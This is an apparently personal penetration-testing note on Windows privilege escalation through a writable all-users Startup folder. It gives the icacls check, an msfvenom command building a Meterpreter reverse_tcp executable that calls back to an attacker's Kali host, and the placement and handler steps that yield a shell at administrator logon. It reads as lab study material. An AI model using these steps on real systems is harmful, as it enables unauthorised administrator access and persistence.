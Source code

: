 ### Check for startup applications
For checking the ACLs in windows we will use **icacls** . This tool will help us to see what permissions we have in the startup applications

Below are the permissions
![[Pasted image 20210718172113.png]]

To run icacls use the following command
```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

After running this you may see something like this
![[Pasted image 20210718172459.png]]

We have full access as denoted by `<F>`

https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

### Generating the payload
Type the following command to generate a metasploit payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] LPORT=[Kali VM Port] -f exe -o x.exe
```

Transfer the file and save it in following location
```powershell
"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

In Kali run ```exploit/multi/handler``` with payload set and type run

Logout from windows and log in with administrator accout you will get the shell
